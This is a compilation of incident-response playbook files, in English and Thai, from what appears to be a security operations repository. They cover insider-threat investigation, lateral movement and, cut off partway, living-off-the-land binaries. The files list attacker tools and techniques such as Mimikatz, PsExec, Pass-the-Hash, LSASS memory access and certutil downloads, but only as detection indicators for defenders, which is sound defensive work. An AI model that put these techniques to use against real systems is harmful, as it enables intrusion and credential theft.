    Legal->>SOC: ✅ Approve covert investigation
    SOC->>Forensics: Collect evidence (covert)
    Forensics->>SOC: 📋 Reports ready
    SOC->>Legal: Present evidence
    Legal->>HR: Take action
    Note over SOC: ⚠️ Do not alert suspect!
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Bulk File Copy to USB | [file_bulk_usb_copy.yml](../../08_Detection_Engineering/sigma_rules/file_bulk_usb_copy.yml) |
| Large Upload to External IP | [net_large_upload.yml](../../08_Detection_Engineering/sigma_rules/net_large_upload.yml) |
| Suspicious Inbox Rule Created | [cloud_email_inbox_rule.yml](../../08_Detection_Engineering/sigma_rules/cloud_email_inbox_rule.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.en.md)
- [Data Governance Policy](../../07_Compliance_Privacy/Data_Governance_Policy.en.md)
- [PDPA Compliance](../../07_Compliance_Privacy/PDPA_Compliance.en.md)

## References

- [MITRE ATT&CK T1534 — Internal Spearphishing](https://attack.mitre.org/techniques/T1534/)
- [CISA Insider Threat Mitigation Guide](https://www.cisa.gov/topics/physical-security/insider-threat-mitigation)
- [CERT Insider Threat Center](https://www.sei.cmu.edu/our-work/insider-threat/)


---

## File: 05_Incident_Response/Playbooks/Insider_Threat.th.md

# Playbook: ภัยคุกคามจากภายใน (Insider Threat)

**ID**: PB-14
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: ภัยจากภายใน
**MITRE ATT&CK**: [T1078](https://attack.mitre.org/techniques/T1078/) (บัญชีที่ถูกต้อง), [T1048](https://attack.mitre.org/techniques/T1048/) (การนำข้อมูลออก)
**ทริกเกอร์**: UEBA alert, DLP alert, HR referral, whistleblower report, ผู้จัดการรายงาน


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวน access controls ตาม least privilege
- [ ] ใช้ UEBA เฝ้า anomalous behavior ต่อเนื่อง
- [ ] อัพเดท DLP policies ตาม insider patterns ที่พบ
- [ ] ประสาน HR สำหรับ disciplinary actions
- [ ] ทบทวน monitoring policies สำหรับ high-risk users
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### แนวทางการประเมินความเสี่ยง

```mermaid
graph TD
    Indicator["🚨 ตัวบ่งชี้"] --> Risk{"⚖️ ระดับ?"}
    Risk -->|ต่ำ: เข้าถึงนอกเวลา| Monitor["👁️ เฝ้าระวัง 30 วัน"]
    Risk -->|กลาง: download มาก| CovertOps["🕵️ สอบสวนแบบ Covert"]
    Risk -->|สูง: exfil + ลาออก| Overt["🔴 Overt — ล็อกบัญชี"]
    CovertOps --> Evidence{"📁 มีหลักฐาน?"}
    Evidence -->|ใช่| HR["👥 HR + Legal"]
    Evidence -->|ไม่| Continue["🔄 เฝ้าระวังต่อ"]
```

### ผังการประสานงาน

```mermaid
sequenceDiagram
    participant SOC
    participant HR
    participant Legal
    participant Manager
    participant IT
    SOC->>HR: แจ้ง insider threat indicators
    HR->>Legal: ปรึกษาเรื่องข้อกฎหมาย
    Legal-->>HR: แนะนำขั้นตอน
    HR->>Manager: ปรึกษา (กรณี overt)
    SOC->>IT: เพิ่ม DLP monitoring
    HR->>SOC: อนุมัติ overt action
    SOC->>IT: ล็อกบัญชี + preserve data
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 กิจกรรมภายในผิดปกติ"] --> Intent{"🎯 เจตนา?"}
    Intent -->|ร้าย (malicious)| Mal["🔴 สอบสวนลับ"]
    Intent -->|ไม่ตั้งใจ (negligent)| Neg["🟠 ให้ความรู้ + ควบคุม"]
    Intent -->|ถูกบังคับ (coerced)| Coerce["🔴 สอบสวน + ช่วยเหลือ"]
    Mal --> Evidence["📋 รวบรวมหลักฐาน"]
    Coerce --> Evidence
    Evidence --> HRLIT["⚖️ ดำเนินการร่วม HR/Legal"]
```

---

## 1. การวิเคราะห์

### 1.1 ตัวบ่งชี้พฤติกรรม

| ตัวบ่งชี้ | ความเสี่ยง | แหล่ง |
|:---|:---|:---|
| ดาวน์โหลด/คัดลอกข้อมูลจำนวนมาก | 🔴 สูง | DLP / UEBA |
| เข้าถึงข้อมูลนอกขอบเขตหน้าที่ | 🔴 สูง | UEBA |
| ใช้ USB/cloud storage ส่งข้อมูลออก | 🔴 สูง | DLP / EDR |
| เข้าถึงระบบนอกเวลาทำงานบ่อย | 🟡 ปานกลาง | SIEM |
| อยู่ระหว่างลาออก (notice period) | 🔴 สูง | HR |
| ถ่ายรูปหน้าจอ (shoulder surfing) | 🟡 ปานกลาง | รายงานเพื่อนร่วมงาน |
| ติดตั้ง unauthorized tools | 🟠 สูง | EDR |
| เปลี่ยน permissons / สิทธิ์ | 🔴 สูง | IAM audit |
| อ่านข้อมูล competitor / M&A | 🔴 สูง | DLP |

### 1.2 รายการตรวจสอบ (**ลับ**)

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ระบุพนักงานที่เกี่ยวข้อง | UEBA / DLP | ☐ |
| กิจกรรมที่ผิดปกติคืออะไร? | SIEM / DLP | ☐ |
| มีข้อมูลถูกส่งออกหรือไม่? ประเภทอะไร? | DLP / Netflow | ☐ |
| ช่องทางที่ใช้ (USB, email, cloud, print) | DLP / EDR | ☐ |
| มี context จาก HR? (ลาออก, ถูกลงโทษ) | HR | ☐ |
| timeline ของกิจกรรม | SIEM | ☐ |
| มีบุคคลอื่นเกี่ยวข้อง? | UEBA correlation | ☐ |

> ⚠️ **สำคัญ**: ห้ามแจ้งพนักงานจนกว่าจะปรึกษา HR + Legal แล้ว

---

## 2. การควบคุม

### 2.1 สอบสวนลับ (Covert)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | เพิ่ม UEBA/DLP monitoring ลับ | ☐ |
| 2 | บันทึก forensic image เครื่องที่ใช้ | ☐ |
| 3 | แจ้ง HR + Legal ลับ | ☐ |
| 4 | จำกัด USB access (หากยังไม่มี policy) | ☐ |
| 5 | เฝ้าระวังช่องทางส่งข้อมูลออก | ☐ |

### 2.2 ตอบสนองทันที (Overt — กรณีเร่งด่วน)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **ล็อกบัญชี** ทันที | ☐ |
| 2 | **ยึดอุปกรณ์** ร่วมกับ HR | ☐ |
| 3 | **บล็อก VPN/Remote access** | ☐ |
| 4 | **สำรอง forensic evidence** | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบบัญชี / ปิดสิทธิ์ทั้งหมด | ☐ |
| 2 | หมุนเวียน credentials ที่พนักงานเข้าถึงได้ | ☐ |
| 3 | ตรวจสอบ service accounts / shared accounts | ☐ |
| 4 | ยึดอุปกรณ์และสำรอง forensics ทั้งหมด | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ปรับปรุง DLP rules | ☐ |
| 2 | ปรับปรุง offboarding checklist ร่วม HR | ☐ |
| 3 | ใช้ UEBA สำหรับพนักงาน high-risk | ☐ |
| 4 | จำกัด USB / removable media | ☐ |
| 5 | ตรวจสอบสิทธิ์ทุกไตรมาส | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| PII / ข้อมูลลูกค้าถูกส่งออก | Legal + DPO (PDPA 72 ชม.) |
| ทรัพย์สินทางปัญญาถูกขโมย | Legal + CISO |
| ทำร่วมกับบุคคลภายนอก (sabotage/espionage) | Law Enforcement |
| พฤติกรรมคุกคาม (threatening behavior) | HR + Security ทันที |
| Admin abuse | [PB-20 Rogue Admin](Rogue_Admin.th.md) |

---

### ผัง Insider Threat Indicators

```mermaid
graph TD
    UEBA["🔍 UEBA"] --> Behav{"🧠 Behavioral?"}
    UEBA --> Tech{"💻 Technical?"}
    Behav --> Resign["📝 ลาออก/ไม่พอใจ"]
    Behav --> Hours["🕐 พฤติกรรมเปลี่ยน"]
    Tech --> Volume["📊 Download มาก"]
    Tech --> Access["🔓 เข้าถึงข้อมูลผิดปกติ"]
    Tech --> USB["💾 USB/Cloud upload"]
    Volume --> Score["⚠️ Risk Score"]
    Access --> Score
    USB --> Score
    style Score fill:#e74c3c,color:#fff
```

### ผัง Covert Investigation Process

```mermaid
sequenceDiagram
    participant HR
    participant Legal
    participant SOC
    participant Forensics
    HR->>Legal: รายงานพฤติกรรมผิดปกติ
    Legal->>SOC: ✅ อนุมัติ covert investigation
    SOC->>Forensics: เก็บ evidence (ลับ)
    Forensics->>SOC: 📋 Reports ready
    SOC->>Legal: นำเสนอหลักฐาน
    Legal->>HR: ดำเนินการ
    Note over SOC: ​⚠️ ห้ามแจ้ง suspect!
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Bulk File Copy to USB | [file_bulk_usb_copy.yml](../../08_Detection_Engineering/sigma_rules/file_bulk_usb_copy.yml) |
| Large Upload to External IP | [net_large_upload.yml](../../08_Detection_Engineering/sigma_rules/net_large_upload.yml) |
| Suspicious Inbox Rule Created | [cloud_email_inbox_rule.yml](../../08_Detection_Engineering/sigma_rules/cloud_email_inbox_rule.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-20 แอดมินกระทำผิด](Rogue_Admin.th.md)
- [PB-08 การนำข้อมูลออก](Data_Exfiltration.th.md)

## Insider Threat Indicators Correlation

| Category | Behavioral | Technical | Combined Risk |
|:---|:---|:---|:---|
| Pre-resignation | Notice given | Mass download | 🔴 Critical |
| Disgruntled | Performance issues | After-hours access | 🟠 High |
| Negligent | Policy violations | Unpatched system | 🟡 Medium |
| Compromised | Phished | Unusual C2 traffic | 🔴 Critical |

### Investigation without Alerting Subject

| Step | Method | Precaution |
|:---|:---|:---|
| Monitor activity | Silent DLP/UEBA | Need-to-know only |
| Review access logs | Backend query | No user-facing alerts |
| Capture evidence | Forensic copy | Legal hold |
| Coordinate HR/Legal | Offline meeting | Secure channel |

### Data Impact Classification

| Data Accessed | Severity | Notification |
|:---|:---|:---|
| Customer PII | Critical | PDPA required |
| Financial data | High | CFO + Legal |
| Source code | High | CTO |
| General internal | Medium | SOC Manager |

## อ้างอิง

- [MITRE ATT&CK — Insider Threat](https://attack.mitre.org/techniques/T1078/)
- [CERT — Common Sense Guide to Insider Threats](https://insights.sei.cmu.edu/library/common-sense-guide-to-mitigating-insider-threats/)


---

## File: 05_Incident_Response/Playbooks/Lateral_Movement.en.md

# Playbook: Lateral Movement

**ID**: PB-12
**Severity**: High/Critical | **Category**: Network / Endpoint
**MITRE ATT&CK**: [T1021](https://attack.mitre.org/techniques/T1021/) (Remote Services), [T1570](https://attack.mitre.org/techniques/T1570/) (Lateral Tool Transfer), [T1550](https://attack.mitre.org/techniques/T1550/) (Use Alternate Authentication Material)
**Trigger**: EDR alert (PsExec, WMI lateral), SIEM (Event 4648/4624 Type 3/10), Honey token, AD anomaly

### Attack Path

```mermaid
graph LR
    Entry["🎯 Initial Access"] --> Recon["🔍 AD Recon"]
    Recon --> CredTheft["🔑 Credential Theft"]
    CredTheft --> Move["🔀 Lateral Movement"]
    Move --> PrivEsc["👑 Priv Escalation"]
    PrivEsc --> DC["🏰 Domain Controller"]
    DC --> Objective["💀 Objective"]
    style Entry fill:#e74c3c,color:#fff
    style CredTheft fill:#f39c12,color:#fff
    style DC fill:#8e44ad,color:#fff
    style Objective fill:#c0392b,color:#fff
```

### Protocol-Based Detection

```mermaid
graph TD
    LM["🔀 Lateral Movement"] --> Proto{"📡 Protocol?"}
    Proto -->|SMB/PsExec| SMB["Event 7045 + 5145"]
    Proto -->|WMI| WMI["Event 4648 + WMI logs"]
    Proto -->|RDP| RDP["Event 4624 Type 10"]
    Proto -->|WinRM| WinRM["Event 4648 + 91"]
    Proto -->|SSH| SSH["auth.log + key events"]
    SMB --> Hunt["🎯 Threat Hunt"]
    WMI --> Hunt
    RDP --> Hunt
    WinRM --> Hunt
    SSH --> Hunt
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Lateral Movement Alert"] --> Source["🔍 Identify Source Host"]
    Source --> Auth{"🔑 Which Account?"}
    Auth -->|Authorized IT Admin| Ticket{"📋 Change Request / Patching?"}
    Auth -->|Non-Admin / Unknown| Suspicious["🔴 Suspicious"]
    Auth -->|Service Account| SvcCheck{"Expected Behavior?"}
    Ticket -->|Yes| FP["✅ False Positive"]
    Ticket -->|No| Suspicious
    SvcCheck -->|Yes| FP
    SvcCheck -->|No| Suspicious
    Suspicious --> Method{"⚙️ Movement Method?"}
    Method -->|RDP| RDPCheck["Check RDP Session Logs"]
    Method -->|PsExec/WMI/WinRM| ToolCheck["Check Process Creation"]
    Method -->|SMB File Copy| FileCheck["Check Transferred Files"]
    Method -->|Pass-the-Hash/Ticket| CredCheck["🔴 Credential Theft"]
    RDPCheck --> Scope["📊 Scope Assessment"]
    ToolCheck --> Scope
    FileCheck --> Scope
    CredCheck --> Scope
    Scope --> Isolate["🔌 Isolate Source + Destinations"]
```

---

## 1. Analysis

### 1.1 Identify Movement Method

| Method | Detection Source | Event IDs / Artifacts |
|:---|:---|:---|
| **RDP** | Windows Event Logs, SIEM | 4624 (Type 10), 4778/4779 |
| **PsExec** | Sysmon, EDR | 7045 (service install), named pipes |
| **WMI** | Sysmon, SIEM | 4648 (explicit creds), WMI process |
| **WinRM/PowerShell** | PowerShell logs, SIEM | 4648, 91/168 (WinRM) |
| **SMB file copy** | File system, Sysmon | File create in admin shares |
| **SSH** | Auth logs, SIEM | sshd entries, 4624 (Type 3) |
| **Pass-the-Hash** | EDR, SIEM | 4624 (Type 3) NTLM without 4776 |
| **Pass-the-Ticket** | EDR, SIEM | 4768/4769 anomalies |
| **DCOM** | Sysmon, SIEM | COM object invocation, mmc.exe |

### 1.2 Source Host Investigation

| Check | How | Done |
|:---|:---|:---:|
| Is the source host compromised? | Check EDR alerts on source host | ☐ |
| How was the source host compromised? | Trace initial access (phishing, exploit, etc.) | ☐ |
| Which credentials are being used? | Event ID 4624 — account name and logon type | ☐ |
| Were credentials dumped? | Check for LSASS access, Mimikatz artifacts | ☐ |
| How many destinations? | SIEM query — unique destination IPs from source | ☐ |

### 1.3 Destination Hosts Investigation

| Check | How | Done |
|:---|:---|:---:|
| What actions were taken on destination? | EDR timeline, process creation | ☐ |
| Were files dropped/executed? | File creation events, Sysmon | ☐ |
| Was persistence established? | New services, scheduled tasks, registry | ☐ |
| Was data accessed? | File access logs, DLP | ☐ |
| Were logs cleared on destination? | [PB-20 Log Clearing](Log_Clearing.en.md) | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions (within 10 minutes)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Isolate source host** | EDR | ☐ |
| 2 | **Disable compromised account(s)** | AD / IdP | ☐ |
| 3 | **Isolate all confirmed destination hosts** | EDR | ☐ |
| 4 | **Block lateral protocols** for affected segment (SMB 445, RDP 3389) | Firewall / Microseg | ☐ |

### 2.2 If Active Directory Compromise Suspected

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Reset password of compromised accounts | ☐ |
| 2 | Check for Golden Ticket — reset KRBTGT twice (12h apart) | ☐ |
| 3 | Audit Domain Admins group — any new members? | ☐ |
| 4 | Check for DCSync indicators (Event ID 4662 with replication rights) | ☐ |
| 5 | Disable RDP at host firewall across non-admin workstations | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Trace the full attack path from Patient Zero to all touched hosts | ☐ |
| 2 | Scan/clean all destination hosts | ☐ |
| 3 | Remove persistence on all affected hosts | ☐ |
| 4 | Re-image hosts if cleaning is uncertain | ☐ |
| 5 | Reset all credentials that may have been harvested | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Reconnect cleaned hosts in stages | ☐ |
| 2 | Verify monitoring is active on all recovered hosts | ☐ |
| 3 | Review network segmentation — block workstation-to-workstation communication | ☐ |
| 4 | Implement LAPS (Local Administrator Password Solution) if not already | ☐ |
| 5 | Enable Windows Credential Guard | ☐ |
| 6 | Monitor all recovered hosts and accounts for 72 hours | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Source Host | | SIEM / EDR |
| Compromised Account(s) | | Event logs |
| Destination Hosts | | SIEM query |
| Movement Method | | EDR / Event IDs |
| Tools Used (PsExec, etc.) | | Process creation |
| File Hashes (dropped) | | EDR |
| Credential Harvest Tool | | EDR / Forensics |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Domain Admin credentials compromised | CISO + External IR |
| More than 5 hosts reached | Major Incident |
| Domain controller accessed | CISO immediately |
| Pass-the-Hash / Pass-the-Ticket confirmed | Tier 2 + Identity team |
| Data exfiltration from destination hosts | [PB-08](Data_Exfiltration.en.md) + Legal |
| Ransomware deployment after lateral movement | [PB-02](Ransomware.en.md) — Major Incident |

---

### Network Segmentation

```mermaid
graph TD
    Corp["🏢 Corporate"] --> FW1["🔥 FW"]
    FW1 --> DC["🏰 DC Segment"]
    Corp --> FW2["🔥 FW"]
    FW2 --> Server["🖥️ Server Farm"]
    Corp --> FW3["🔥 FW"]
    FW3 --> User["💻 User VLAN"]
    DC -.->|❌ No direct access| User
    style DC fill:#e74c3c,color:#fff
    style FW1 fill:#f39c12,color:#fff
    style FW2 fill:#f39c12,color:#fff
    style FW3 fill:#f39c12,color:#fff
```

### Credential Theft Detection

```mermaid
sequenceDiagram
    participant Attacker
    participant LSASS
    participant EDR
    participant SOC
    Attacker->>LSASS: Access lsass.exe memory
    EDR->>EDR: 🚨 LSASS access detected
    EDR->>SOC: Alert: credential dumping
    SOC->>EDR: Isolate source host
    SOC->>SOC: Check for lateral movement
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Access to Admin Shares (C$) | [win_admin_share_access.yml](../../08_Detection_Engineering/sigma_rules/win_admin_share_access.yml) |
| User Added to Domain Admins | [win_domain_admin_group_add.yml](../../08_Detection_Engineering/sigma_rules/win_domain_admin_group_add.yml) |
| Network Discovery Activity | [sigma/win_network_discovery.yml](../../08_Detection_Engineering/sigma_rules/win_network_discovery.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-02 Ransomware](Ransomware.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-13 C2 Communication](C2_Communication.en.md)
- [PB-15 Rogue Admin](Rogue_Admin.en.md)
- [PB-20 Log Clearing](Log_Clearing.en.md)

## References

- [MITRE ATT&CK T1021 — Remote Services](https://attack.mitre.org/techniques/T1021/)
- [JPCERT Lateral Movement Guide](https://www.jpcert.or.jp/english/pub/sr/20170612ac-ir_research_en.pdf)
- [Microsoft LAPS](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)


---

## File: 05_Incident_Response/Playbooks/Lateral_Movement.th.md

# Playbook: การเคลื่อนไหว ด้านข้าง (Lateral Movement)

**ID**: PB-09
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: การโจมตี / Post-Exploitation
**MITRE ATT&CK**: [T1021](https://attack.mitre.org/techniques/T1021/) (Remote Services), [T1550](https://attack.mitre.org/techniques/T1550/) (Use Alternate Authentication Material)
**ทริกเกอร์**: EDR alert (PsExec, WMI, RDP), SIEM (Event 4648/4624 Type 3), Honey token triggered


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวน network segmentation
- [ ] ใช้ credential guard / LSA protection
- [ ] Disable NTLM ที่เป็นไปได้
- [ ] ทบทวน admin account tiering (Tier 0/1/2)
- [ ] สร้าง detection rule สำหรับ technique ที่พบ
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังเส้นทางการโจมตี

```mermaid
graph LR
    Entry["🎯 Initial Access"] --> Recon["🔍 AD Recon"]
    Recon --> CredTheft["🔑 Credential Theft"]
    CredTheft --> Move["🔀 Lateral Movement"]
    Move --> PrivEsc["👑 Priv Escalation"]
    PrivEsc --> DC["🏰 Domain Controller"]
    DC --> Objective["💀 Objective"]
    style Entry fill:#e74c3c,color:#fff
    style CredTheft fill:#f39c12,color:#fff
    style DC fill:#8e44ad,color:#fff
    style Objective fill:#c0392b,color:#fff
```

### ผังการตรวจจับตาม Protocol

```mermaid
graph TD
    LM["🔀 Lateral Movement"] --> Proto{"📡 Protocol?"}
    Proto -->|SMB/PsExec| SMB["Event 7045 + 5145"]
    Proto -->|WMI| WMI["Event 4648 + WMI logs"]
    Proto -->|RDP| RDP["Event 4624 Type 10"]
    Proto -->|WinRM| WinRM["Event 4648 + 91"]
    Proto -->|SSH| SSH["auth.log + key events"]
    Proto -->|DCOM| DCOM["Event 4648 + DCOM"]
    SMB --> Hunt["🎯 Threat Hunt"]
    WMI --> Hunt
    RDP --> Hunt
    WinRM --> Hunt
    SSH --> Hunt
    DCOM --> Hunt
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Lateral Movement"] --> Method{"⚙️ วิธีการ?"}
    Method -->|RDP/SMB/WinRM| Remote["🖥️ Remote Service"]
    Method -->|PtH/PtT| Cred["🔑 Credential-based"]
    Method -->|PsExec/WMI| Exec["⚡ Remote Execution"]
    Method -->|SSH/Jump Host| SSH["🐧 Linux/Unix"]
    Remote --> Scope["📊 ระบุ Scope"]
    Cred --> Scope
    Exec --> Scope
    SSH --> Scope
    Scope --> Multi{"🖥️ กี่เครื่อง?"}
    Multi -->|1-2| Contain["🔒 Isolate Hosts"]
    Multi -->|>3| Major["🔴 Major Incident"]
```

---

## 1. การวิเคราะห์

### 1.1 วิธี Lateral Movement

| วิธี | Windows Event ID | ตัวบ่งชี้ |
|:---|:---|:---|
| **RDP** | 4624 (Type 10) | RDP จาก server-to-server |
| **SMB/Admin Share** | 5140, 5145 | Access \\C$ \\ADMIN$ |
| **PsExec** | 7045 (service install) | PSEXESVC service |
| **WMI** | 4648 + WMI provider | WmiPrvSE.exe child |
| **Pass-the-Hash** | 4624 (NTLM, Type 3) | NTLM จาก workstation |
| **Pass-the-Ticket** | 4768/4769 anomaly | TGT/TGS ผิดปกติ |
| **SSH** | sshd auth.log | Key-based ผิดปกติ |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Source host (patient zero) | EDR / SIEM | ☐ |
| Destination hosts ทั้งหมด | SIEM lateral search | ☐ |
| บัญชีที่ใช้ (user / service / admin) | AD logs | ☐ |
| วิธีการ (RDP/PsExec/WMI/PtH) | EDR / Event ID | ☐ |
| เวลาและ pattern | SIEM timeline | ☐ |
| Tools ที่ใช้ (Mimikatz, Impacket, etc.) | EDR | ☐ |
| ข้อมูลที่เข้าถึงบน destination hosts | EDR / file audit | ☐ |

---

## 2. การควบคุม

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Isolate** ทุก host ที่ได้รับผลกระทบ | ☐ |
| 2 | **รีเซ็ตรหัสผ่าน** บัญชีที่ถูกใช้ | ☐ |
| 3 | **ปิดบัญชี** service accounts ที่ถูกใช้ | ☐ |
| 4 | **Block** lateral movement tools ที่ EDR | ☐ |
| 5 | **จำกัด RDP / SMB** ระหว่าง workstations | ☐ |
| 6 | **เพิ่ม monitoring** บน AD (Event 4624, 4648) | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ malware/implant จากทุก host | ☐ |
| 2 | ลบ persistence ทั้งหมด | ☐ |
| 3 | รีเซ็ต KRBTGT 2 ครั้ง (หาก Golden Ticket) | ☐ |
| 4 | หมุนเวียน service account credentials | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ใช้ LAPS สำหรับ local admin passwords | ☐ |
| 2 | บังคับ network segmentation | ☐ |
| 3 | ปิด RDP/SMB ระหว่าง workstations (peer-to-peer) | ☐ |
| 4 | ใช้ Credential Guard / Protected Users group | ☐ |
| 5 | ติดตาม 30 วัน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Domain Admin credentials ถูกขโมย | CISO + Major Incident |
| >3 hosts ถูกบุกรุก | Major Incident |
| Golden Ticket / DCSync | [PB-07 Priv Escalation](Privilege_Escalation.th.md) |
| ข้อมูลถูก staging/exfiltrate | [PB-08 Data Exfiltration](Data_Exfiltration.th.md) |

---

### ผัง Network Segmentation

```mermaid
graph TD
    Corp["🏢 Corporate"] --> FW1["🔥 FW"]
    FW1 --> DC["🏰 DC Segment"]
    Corp --> FW2["🔥 FW"]
    FW2 --> Server["🖥️ Server Farm"]
    Corp --> FW3["🔥 FW"]
    FW3 --> User["💻 User VLAN"]
    DC -.->|❌ No direct access| User
    style DC fill:#e74c3c,color:#fff
    style FW1 fill:#f39c12,color:#fff
    style FW2 fill:#f39c12,color:#fff
    style FW3 fill:#f39c12,color:#fff
```

### ผัง Credential Theft Detection

```mermaid
sequenceDiagram
    participant Attacker
    participant LSASS
    participant EDR
    participant SOC
    Attacker->>LSASS: Access lsass.exe memory
    EDR->>EDR: 🚨 LSASS access detected
    EDR->>SOC: Alert: credential dumping
    SOC->>EDR: Isolate source host
    SOC->>SOC: Check for lateral movement
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Access to Admin Shares (C$) | [win_admin_share_access.yml](../../08_Detection_Engineering/sigma_rules/win_admin_share_access.yml) |
| User Added to Domain Admins | [win_domain_admin_group_add.yml](../../08_Detection_Engineering/sigma_rules/win_domain_admin_group_add.yml) |
| Network Discovery Activity | [sigma/win_network_discovery.yml](../../08_Detection_Engineering/sigma_rules/win_network_discovery.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-07 การยกระดับสิทธิ์](Privilege_Escalation.th.md)
- [PB-13 C2](C2_Communication.th.md)

## Detection Correlation Matrix

| Technique | Data Source | Detection Logic |
|:---|:---|:---|
| PsExec | Windows Event 7045 | New service + remote IP |
| WMI | Sysmon Event 1 | wmiprvse.exe spawn |
| RDP | Event 4624 Type 10 | Unusual src→dst pair |
| SMB | Zeek smb_files.log | Admin share access |
| WinRM | Event 4656 | Remote PowerShell |

### Lateral Movement Timeline Reconstruction

```
Time    Source        Destination    Method     Evidence
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
T+0     Workstation1  Server-A      PsExec     Event 7045
T+5min  Server-A      Server-B      WMI        Sysmon 1
T+12min Server-B      DC-01         RDP        Event 4624
T+15min DC-01         File-Server   SMB        smb_files
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

### Containment Priority

| Target | Action | Priority |
|:---|:---|:---|
| Source host | Isolate | P1 |
| Compromised creds | Disable | P1 |
| Accessed servers | Monitor | P2 |
| Network segment | Restrict | P2 |

### Credential Reset Matrix

| Compromised Level | Reset Scope |
|:---|:---|
| User account | Single user |
| Local admin | All hosts with same pwd |
| Domain admin | Entire domain |
| Service account | Application + dependencies |

## อ้างอิง

- [MITRE ATT&CK — Lateral Movement](https://attack.mitre.org/tactics/TA0008/)


---

## File: 05_Incident_Response/Playbooks/Living_Off_The_Land.en.md

# Playbook: Living Off The Land (LOLBins) Response

**ID**: PB-39
**Severity**: High | **Category**: Defense Evasion / Execution
**MITRE ATT&CK**: [T1059](https://attack.mitre.org/techniques/T1059/) (Command and Scripting), [T1218](https://attack.mitre.org/techniques/T1218/) (System Binary Proxy Execution), [T1197](https://attack.mitre.org/techniques/T1197/) (BITS Jobs)
**Trigger**: EDR alert (suspicious LOLBin usage), SIEM (unusual process chains), behavioral anomaly detection

> ⚠️ **WARNING**: LOLBin attacks use legitimate Windows tools — they bypass traditional AV/EDR signature detection. Process behavior analysis is essential.

### What Are LOLBins?

```mermaid
graph TD
    LOL["🔧 Living Off The Land"] --> Exec["Execution"]
    LOL --> Download["Download"]
    LOL --> Bypass["Bypass"]
    LOL --> Persist["Persistence"]
    
    Exec --> PS["PowerShell\nT1059.001"]
    Exec --> CMD["cmd.exe\nT1059.003"]
    Exec --> WMI["WMIC\nT1047"]
    Exec --> MSHTA["mshta.exe\nT1218.005"]
    
    Download --> Certutil["certutil.exe\nT1105"]
    Download --> BITS["bitsadmin\nT1197"]
    Download --> Curl["curl.exe\nT1105"]
    
    Bypass --> Rundll32["rundll32.exe\nT1218.011"]
    Bypass --> Regsvr32["regsvr32.exe\nT1218.010"]
    Bypass --> MSBuild["MSBuild.exe\nT1127.001"]
    
    Persist --> SchTask["schtasks.exe\nT1053.005"]
    Persist --> RegAdd["reg.exe\nT1547.001"]
    
    style LOL fill:#ff6600,color:#fff
    style PS fill:#cc3333,color:#fff
    style Certutil fill:#cc3333,color:#fff
```

### LOLBin Attack Chain

```mermaid
graph LR
    A["1️⃣ Initial Access\nPhishing email"] --> B["2️⃣ Execution\nmshta.exe / wscript"]
    B --> C["3️⃣ Download\ncertutil -urlcache"]
    C --> D["4️⃣ Persistence\nschtasks /create"]
    D --> E["5️⃣ C2 Comm\nPowerShell IEX"]
    E --> F["6️⃣ Actions\nData theft"]
    style A fill:#ffcc00,color:#000
    style B fill:#ff9900,color:#fff
    style C fill:#ff6600,color:#fff
    style D fill:#ff4444,color:#fff
    style E fill:#cc0000,color:#fff
    style F fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
